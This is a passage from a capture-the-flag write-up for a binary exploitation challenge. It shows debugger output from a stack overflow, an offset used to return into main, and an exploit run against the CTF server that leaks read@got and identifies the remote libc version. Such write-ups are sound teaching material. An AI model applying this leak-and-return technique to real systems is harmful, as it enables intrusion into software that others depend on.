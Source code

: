 ```asm wrap=false showLineNumbers=false
03:0018│     0x7ffe6018dba8 ◂— 0x61617861616177 /* 'waaaxaa' */
04:0020│     0x7ffe6018dbb0 —▸ 0x7ffe6018dc98 —▸ 0x7ffe6018fc4a ◂— '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
05:0028│     0x7ffe6018dbb8 ◂— 1
06:0030│     0x7ffe6018dbc0 —▸ 0x7c45e47cc000 (_rtld_global) —▸ 0x7c45e47cd310 ◂— 0
07:0038│     0x7ffe6018dbc8 ◂— 0
──────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────
 ► 0   0x7c45e45f1e9a puts+250
   1 0x6161617261616171 None
   2 0x6161617461616173 None
   3 0x6161617661616175 None
   4 0x61617861616177 None
   5   0x7ffe6018dc98 None
   6              0x1 None
   7   0x7c45e47cc000 _rtld_global
```
Then after placing the main address at offset 64, we can see that after puts the program again enter into the main function.

## finding libc version
Since we managed to leak libc locally, lets leak it in remote and find the libc version to get same libc as in remote.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py REMOTE                           3.13.3  19:11 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to litctf.org on port 31779: Done
0x7631eb33ebe0
[*] Switching to interactive mode
Enter username:
Enter password:
$  
```
Like the by leaking the value from read got table (read@got), we can leak the libc address of read.
So with the help of [libc.rip](https://libc.rip) , we can find the correct libc version. After giving out libc address the numb of offset trim down to two, where one libc is the next version one libc. so both both libc may work here.

![libc_find](./libc_find.png)
